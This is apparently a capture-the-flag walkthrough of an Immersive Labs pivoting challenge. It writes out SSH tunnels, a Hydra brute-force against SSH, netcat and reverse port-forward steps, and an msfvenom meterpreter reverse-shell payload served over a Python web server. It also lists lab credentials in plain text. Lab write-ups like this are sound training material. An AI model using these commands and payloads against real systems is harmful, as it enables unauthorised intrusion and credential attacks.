 ```yaml
---
date: 2025-03-01
categories: [CTF, ImmersiveLabs]
title: "IML - Infrastructure Pen Testing: Ep.7 — Pivoting"
tags: ['hydra', 'linux', 'privilege escalation', 'python', 'rce', 'reverse shell', 'windows']

description: "Infrastructure Pen Testing Ep - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Infrastructure Pen Testing: Ep.7 — Pivoting


![image1](../resources/5c9a57ca981f4eecab592d75a051e28d.png)

![image2](../resources/b70f40d5e07c44ee85804e505797152c.png)

Pivot 1: **root : PwnedR00t**

Target 2: **Administrator : Adm1nPass**

1.) Setup SSH Tunnel:

```bash
ssh -L 2222:10.102.173.65:22 root@10.102.16.36 -v

```

![image3](../resources/8c001310ce5342bbbbee1b72afd4cfbf.png)

2.) Run Hydra (It does take a few minutes):

```bash
hydra -l root -P /usr/share/wordlists/metasploit/burnett_top_1024.txt 127.0.0.1 ssh -s 2222

```

![image4](../resources/c4f91f3878144690ad885688efb79eb4.png)

3.)
- **<u>Target1:</u>**
**root : michael1**

- SSH into Target1 (with the portforward still running):

```bash
ssh root@localhost -p 2222

```

![image5](../resources/0e95f194048048259275d46e17513a25.png)

IP's changed

![image6](../resources/51ec4caab6944c13bc33e465e2653707.png)

4.)Extra challenge: Try sending a reverse shell from the first target back to the Kali machine:

- Set up reverse port forward (on the pivot machine)

```bash
portfwd add -R -L <KALI IP> -l 6666 -r 7777

```
or something like:

```bash
ssh -R <Windows 7 Internal Network IP>:<Windows 7 Unused Port>:<Kali Linux Local IP>:<Kali Linux reverse shell listening port> <username>@<Windows 7 IP>

```
- Start listener locally on port 6666 (on Kali)

- On target 1, netcat to pivot machine on 7777 (or use a msfvenom payload with port 7777)

```bash
nc 10.102.32.119 7777

```
5.)Use the second pivot host's port 80 service to get a reverse shell:

- Go to  `http:// 10.102.43.238`

- Create msfvenom payload:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.102.184.68 LPORT=9000 -f elf -o reverse.elf

```
- Setup python server

- Run:
http://10.102.184.68:8000/reverse.elf


![image7](../resources/b3f7337ae52244a28649af39294a54d0.png)

6.)Using Metasploit's port forwarder, RDP into the second target:

**portfwd add -l \<PORT_ON_LOCAL_MACHINE\> -p \<REMOTE_PORT\> -r \<DESTINATION_HOST\>**

```bash
portfwd add -l 5555 -p 3389 -r 10.102.108.144
```

![image8](../resources/cfa5ddc2e95545febf940bbbf6492b58.png)

```bash
xfreerdp /u:Administrator /v:127.0.0.1:5555 /p:Adm1nPass
```

![image9](../resources/01f260de1db541d2a3217cd377877f93.png)
